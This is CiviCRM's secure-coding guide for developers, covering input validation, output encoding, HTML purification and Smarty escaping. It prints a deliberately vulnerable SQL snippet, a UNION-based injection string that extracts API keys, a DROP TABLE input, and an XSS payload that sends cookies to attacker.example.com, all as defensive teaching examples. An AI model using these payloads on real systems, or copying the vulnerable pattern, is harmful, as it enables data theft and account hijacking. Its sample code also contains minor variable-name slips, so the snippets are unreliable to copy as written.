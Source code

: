 # Secure Coding Standards

## Introduction

CiviCRM maintains a number of standard practices which help ensure that CiviCRM is as secure as possible. This chapter will aim to help give developers guidance on the best way to write code for CiviCRM core and Extensions etc in a secure way. 

## Inputs and outputs

Like any large application, CiviCRM has many inputs and many outputs &mdash; and for adequate security, it must ensure that all data which flows from untrusted inputs to sensitive outputs receives *sanitizing* at some point along the way to protect against attacks.

![Inputs vs outputs diagram](/img/security-inputs-and-outputs.svg)

### Bad example

Consider the following PHP code:

```php
$contactId = $_GET['cid']; // Untrusted input
$sql = "
 SELECT display_name
 FROM civicrm_contact
 WHERE id = $contactID;
";
$query = CRM_Core_DAO::executeQuery($query); // Sensitive output
```

This is bad because because a user can send the following string for the `cid` parameter:

```text
0 UNION SELECT api_key FROM civicrm_contact WHERE id = 4
```

With this attack, the response page would display the API key (for any contact the attacker chooses) anywhere the page would normally display the contact's name. This is an information disclosure vulnerability.

!!! note
    You might think that an input like ``0; DROP TABLE `civicrm_contact` `` would present an [even more serious a vulnerability](https://xkcd.com/327/), but fortunately CiviCRM does not allow [query stacking](http://www.sqlinjection.net/stacked-queries/) which means `executeQuery()` can only execute one query at a time.

### An improvement using sanitizing

In order to fix this security vulnerability, we need to sanitize either the input or output (or both!) as follows:

```php
$contactId = CRM_Utils_Request::retrieve(
  'cid',
  'Positive' // <-- Input sanitizing
);
$sql = "
  SELECT display_name
  FROM civicrm_contact
  WHERE contact_id = %1;
";
$displayName = CRM_Core_DAO::executeQuery($query, array(
  1 => array($contactId, 'Integer'), // <-- Output sanitizing
));
```

Now, users will only be able to send integers in, and CiviCRM will only be able to send integers out. This is obviously a simplified example, but it illustrates the concepts of inputs, outputs, and sanitizing.


## Sanitization methods

Sanitizing (also sometimes generally called "**escaping**") refers the process of cleaning (or rejecting) data to protect against attacks.

### Validation

The most primitive way to sanitize untrusted data (as in the example above) is to throw an error when it does not conform to the expected format. This works well for data inputs which are of known (and simple) types, but can be much more difficult (and less effective) when used for *outputs* or complex data types.

### Encoding (aka "escaping") {:#encoding}

Encoding alters the untrusted data to suit a *specific output*.

For example, consider the following Smarty code:

```html
<div class="email">{$emailAddress}</div>
```

This works fine with an input of `foo@example.org`. But a string like `<script>window.location='http://attacker.example.com/?cookie='+document.cookie</script>` would present an [XSS](https://excess-xss.com/) vulnerability. If loaded in a victim's browser, this string would send the victim's cookies to the attacker's website and allow the attacker to masquerade as the user.

Using validation to reject email addresses characters like `<` or `>` would prevent the attack, but it would also prevent us from displaying email addresses like `Foo Bar <foo@example.org>`.

By *encoding* the data (for HTML), we change `Foo Bar <foo@example.org>` to `Foo Bar &lt;foo@example.org&gt;`. This prevents the attack and allows us to display any characters we wish.

!!! important
    Encoding is specific to output mechanisms. Data embedded within HTML must be encoded differently from data embedded in an SQL query or a shell command.

### Purification

In rare cases such as user-editable rich text fields, CiviCRM cannot use validation or encoding to protect against attacks because the same characters used in attacks are also necessary for presentation. For these cases, CiviCRM uses a 3rd-party library called [HTML Purifier](http://htmlpurifier.org/) which employs sophisticated techniques to [remove XSS](http://htmlpurifier.org/live/smoketests/xssAttacks.php) from HTML strings.


## Sanitize input or output? {:#input-vs-output}

Now that we understand sanitization, as well as inputs and outputs, the question arises: *at what point in my code should I sanitize?*

### In an ideal world

Ideally developers should:

* Provide **validation for inputs** which are as strict as possible.
* Provide **encoding for outputs** whenever possible (which is most of the time).
* Provide purification for outputs in rare cases when encoding is not possible (e.g. rich text).

### In a misguided world

A common (and well meaning) mistake is to *encode inputs* instead of *encoding outputs*. For example, we might choose to store a string like `"Foo Bar" <foo@example.org>` in the database as `"Foo Bar" &lt;foo@example.org&gt;` because we know that, later on, our application will display it within an HTML page. This approach is bad because different outputs (e.g. HTML, SQL, shell) require different of encoding schemes. During input we have no reliable way of knowing which outputs the data will reach.

### The current state of CiviCRM 

Unfortunately (at least as of 2017) CiviCRM exists in a somewhat uncomfortable limbo between the ideal world and the misguided world. In some places, CiviCRM sanitizes inputs with a partial encoding for HTML output, and then does not encode the output. In other places, (e.g. data sent to MySQL) CiviCRM encodes outputs. In 2012 developers [identified the need to improve this situation](https://issues.civicrm.org/jira/browse/CRM-11532), but unfortunately it's not an easy task because shifting strategies has implications across the entire codebase. This doesn't mean CiviCRM is rife with security vulnerabilities &mdash; it just means that CiviCRM has not been *consistent* about how it approaches security. Developers should keep this in mind and strive towards the "ideal world" when writing new code.


CiviCRM has long been confused and staggered in regards to whether to escape on output or escape on input. CiviCRM are slowly moving towards escaping on output for most purposes however there is still a need for escaping on input when dealing with writing queries against the database. At present the simplest way to escape on output is to use inbuilt escape functions within our templating engine Smarty. For example:

```
<a  href="{$item.url}" title="{$item.title|escape:'html'}">
```

This will ensure that the variable title within the item key when generating a list of recently viewed items won't have any Cross Site Scripting as it will be escaped for use within HTML. For more information on the types of escaping you can do with Smarty see the [Smarty Documentation](https://www.smarty.net/docsv2/en/language.modifier.escape)



For AngularJS templates, developers should consult the AngularJS [$sanitize documentation](https://docs.angularjs.org/api/ngSanitize/service/$sanitize).

## Handling Request variables

Through the CiviCRM code base you will find that there are a number of times where CiviCRM takes variables passed to it through the URL e.g. `?cid=1234` or `?id=1234`. CiviCRM has put in place some inbuilt functions that help to ensure that no dangerous values are able to be passed through.

```php
$cid = CRM_Utils_Request::retrieve('cid', 'Positive', $this);
$id = CRM_Utils_Request::retrieve('id', 'Positive', $this, FALSE, NULL, 'GET');
$angPage = CRM_Utils_Request::retrieve('angPage', 'String', $this);
if (!preg_match(':^[a-zA-Z0-9\-_/]+$:', $angPage)) {
  CRM_Core_Error::fatal('Malformed return URL');
}
$backUrl = CRM_Utils_System::url('civicrm/a/#/' . $angPage);
```

What you will notice above is that one of the key things there is the usage of `CRM_Utils_Request::retrieve` This function takes in whatever request variables have been passed to the page or form etc, gets the key requested out of it, then ensures that it meets a specific type of value. The acceptable types can be found in [CRM_Utils_Type::validate](https://github.com/civicrm/civicrm-core/blob/60050425316acb3726305d1c34908074cde124c7/CRM/Utils/Type.php#L378). 

## Passing variables into SQL

Developers should ensure that whenever they pass variables into SQL statements that they do it in the proper standard. More information can be found in the [SQL Coding Standards](/standards/sql/).

## References

 - Escape on Input v Escape on output [Stack exchange](https://security.stackexchange.com/questions/95325/input-sanitization-vs-output-sanitization) [Stack Overflow](https://stackoverflow.com/questions/11253532/html-xss-escape-on-input-vs-output).

